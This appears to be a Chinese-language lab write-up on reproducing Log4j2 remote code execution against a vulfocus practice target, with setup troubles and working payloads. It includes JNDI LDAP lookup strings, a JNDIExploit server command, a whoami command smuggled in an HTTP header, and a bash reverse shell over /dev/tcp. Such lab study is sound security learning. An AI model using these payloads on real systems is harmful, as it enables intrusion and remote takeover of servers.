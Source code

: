 想参照这篇文章复现一下log4j2反弹shell  
https://blog.csdn.net/m0_56773673/article/details/122300927

本想使用vulfocus的在线靶场（vulfocus/log4j2-rce-2021-12-09:1），结果环境启动后，payload打一下，环境崩一下，好不容易环境不崩了，payload放到get请求里，返回400，payload放到post请求里，返回405，心好累，还是参照复现文章中的环境自己搭吧  
参见：https://blog.csdn.net/weixin_47019868/article/details/122010972

使用kali系统，apt update发现非常慢，先更新下源  
参见：https://blog.csdn.net/qq_33331244/article/details/114656949

docker pull vulfocus/log4j2-rce-2021-12-09的时候非常慢，等了好半天都不行，突然想到，是不是docker镜像源的问题，修改镜像源后，不到1分钟就pull完成  
修改镜像源参见：https://blog.csdn.net/qq_29924795/article/details/104483435

本地搭建完环境，发现环境和在线靶场一样，并不是文章中的环境，难道docker镜像升级了，我靠。。

环境就这样了，还是想想payload怎么打吧，payload放入get请求中返回400，payload放入post请求中返回405，还是不行啊，查阅下vulfocus这个靶场别人怎么打的，突然发现，payload是放入get请求中，但需要url编码下，我怎么忘记url编码了，大脑好迟钝  
参见：https://blog.csdn.net/weixin_45632448/article/details/124149561

赶紧改成url编码的形式测试一下，结果还是不行，测了几次，都是不行，突然想到，是不是本地的docker镜像不出网啊，进入docker镜像内，发现各种命令都被阉割了，心再次好累。。

还是用在线靶场试一下吧，如果在线靶场可以，那应该就是本地docker镜像不出网，启动在线靶场，打了一下，dns平台收到请求了，天啦撸，终于行啦
![image](./image/01.png)

折腾了一圈，最后用的还是在线靶场。。。不过还好，这过程也学到不少

经测试，如下三种形式payload都可以
```
${jndi:ldap://de63d35d.dns.1433.eu.org/ttt}
${jndi:ldap://de63d35d.dns.1433.eu.org/}
${jndi:ldap://de63d35d.dns.1433.eu.org}
```

下面尝试执行命令，服务端执行
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 0.0.0.0 -l 1389 -p 3456
```
其中JNDIExploit-1.2-SNAPSHOT.jar是魔改过的（也可以使用：[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)）

payload处执行如下（这是一个有回显的payload）
```
${jndi:ldap://0.0.0.0:1389/TomcatBypass/TomcatEcho}
```
并添加一个http头
```
WWW-Authenticate: whoami
```
可以看到成功执行了命令  
![image](./image/02.png)

尝试反弹shell
```
WWW-Authenticate: bash -c 'exec bash -i &>/dev/tcp/0.0.0.0/1234 <&1'
```
可以看到，成功反弹了shell
![image](./image/03.png)

有精力还可以看一下如下2篇log4j2的靶场和漏洞复现：  
https://buaq.net/go-111996.html  
https://www.cnblogs.com/CHOSEN1-Z13/p/16001961.html  